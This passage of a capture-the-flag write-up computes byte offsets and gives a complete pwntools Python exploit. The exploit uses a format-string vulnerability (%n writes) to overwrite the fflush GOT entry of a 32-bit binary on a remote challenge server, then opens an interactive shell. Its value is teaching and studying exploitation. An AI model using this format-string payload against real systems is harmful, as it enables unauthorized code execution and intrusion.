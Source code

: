 ```
>>> hex(1159)
'0x487'
>>> 0x508 - 0x487
129
```

So for the last write, we will need to print an additional 129 bytes. With all of this information, we can write the exploit. It will look something like this:

```
payload = first_adr + second_adr + third_adr + first_byte_print + first_offset_write + second_byte_print + second_offset_write + third_byte_print + third_offset_write
``` 

and here is the python code for that:
```
#Import pwntools
from pwn import *

#Establish the target process, or network connection
#target = process('./32_new')
target = remote('163.172.176.29', 9035)

#Attach gdb if it is a process
#gdb.attach(target)

#Print the first line of text
print target.recvline()

#Prompt for input, to pause for gdb
raw_input()

#Establish the addresses which we will be writing to
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

#Establish the amount of bytes needed to be printed in order to write correct value
flag_val0 = "%185x"
flag_val1 = "%892x"
flag_val2 = "%129x"

#Establish the necissary offputs for our input, so we can write to the addresses
fmt_string0 = "%10$n"
fmt_string1 = "%11$n"
fmt_string2 = "%12$n"

#Form the payload
payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + flag_val0 + fmt_string0 + flag_val1 + fmt_string1 + flag_val2 + fmt_string2

#Send the payload
target.sendline(payload)

#Drop to an interacrtive shell
target.interactive()
```
